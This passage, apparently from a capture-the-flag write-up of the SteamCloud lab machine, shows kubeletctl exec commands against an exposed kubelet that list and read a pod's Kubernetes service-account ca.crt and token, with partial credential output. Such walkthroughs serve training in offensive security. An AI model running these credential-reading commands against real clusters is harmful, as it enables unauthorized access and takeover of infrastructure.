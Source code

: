 ## File System as root on SteamCloud

### Enumeration

#### nginx Container

[This
page](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/enumeration-from-a-pod)
from HackTricks shows the location of the ServiceAccount object, which
is managed by Kubernets and provides identity within the pod. It gives
three typical directories:

-   `/run/secrets/kubernetes.io/serviceaccount`
-   `/var/run/secrets/kubernetes.io/serviceaccount`
-   `/secrets/kubernetes.io/serviceaccout`

In this case, it's the first one:



    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "ls /run/secrets/kubernetes.io/serviceaccount" -p nginx -c nginx
    ca.crt  namespace  token



These are the three [expected
files](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/enumeration-from-a-pod):

> **ca.crt**: It's the ca certificate to check kubernetes communications
>
> **namespace**: It indicates the current namespace
>
> **token**: It contains the **service token** of the current pod.

With the `ca.crt` and the `token`, I can authenticate to the cluster.

I'll save these (`tee` will write them to a file and show them via
stdout):



    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee ca.crt
    -----BEGIN CERTIFICATE-----
    MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
    a3ViZUNBMB4XDTIxMTEyOTEyMTY1NVoXDTMxMTEyODEyMTY1NVowFTETMBEGA1UE
    ...[snip]...

    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee token
    eyJhbGciOiJSUzI1NiIsImtpZCI6Im1aLUpKcmtjMFJTM3hpT083ZUNNLWk2WTRvNENTZWRvMVBZNmpaY1FmMUUifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZ
    ...[snip]...



#### Auth to Kubernetes API
